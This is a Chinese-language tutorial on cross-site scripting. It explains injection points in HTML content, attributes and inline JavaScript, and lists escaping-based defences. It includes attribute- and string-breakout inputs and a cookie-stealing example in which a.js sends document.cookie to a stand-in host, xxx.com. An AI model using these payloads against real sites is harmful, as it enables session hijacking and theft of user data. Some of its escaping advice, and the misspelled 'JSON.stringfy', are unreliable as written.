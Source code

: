 # 跨站脚本攻击(Cross Site Scripting)

html结构
```html
<!-- content为用户输入的数据 -->
<div>
    #{content}
</div>
```
正常数据
```html
<!-- 输入 Hello World -->
<div>
    Hello World
</div>
```
恶意数据
```html
<!-- 输入 <script>alert(1)</script> -->
<div>
    <script>alert(1)</script>
</div>
```

# 案例: 利用XSS获取cookie

搜索框输入关键词, 搜索结果会回显关键词

输入脚本
```html
<script src="http://xxx.com/a.js"></script>
```
a.js内容如下
```javascript
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://xxx.com/b.php?c=' +
    encodeURIComponent(document.cookie);
```

# XSS攻击分类

1. 反射型: url参数直接注入
2. 存储型: 存储到数据库后, 页面读取数据库时注入

# XSS攻击注入点

## HTML节点内容

```html
<div>
    #{content}
</div>
```

## HTML属性

```html
<img src="#{image}" />
```
注入
```html
<!-- 
    输入: 1" onerror="alert(1)
    关闭当前src属性,并添加自定义属性 
-->
<img src="1" onerror="alert(1)" />
```

## JavaScript代码

```html
<script>
var from = "!{from}";
</script>
```
注入
```html
<!-- 
    输入: hello";alert(1);"
-->
<script>
var from = "hello";alert(1);"";
</script>
```

## 富文本

富文本会保留html

# XSS防御

## 浏览器自带的防御

1. 浏览器会防御反射型的XSS, 即url里的内容再次出现在html节点和html属性中

## HTML节点内容

1. 将尖括号`<`和`>`转义成`&lt;`和`&gt;`

## HTML属性

1. 将引号`"`转义成`&quot;`
2. 将引号`'`转义成`&#39;`
3. 将空格` `转义成`&nbsp;`

## JavaScript代码

1. 将斜杠`\`转义成`\\`
2. 将引号`"`转义成`\"`
3. 将引号`'`转义成`&#39;`
4. 将输入用JSON.stringfy()转义

## 富文本

1. 按黑名单过滤部分标签和属性
2. 按白名单保留部分标签和属性
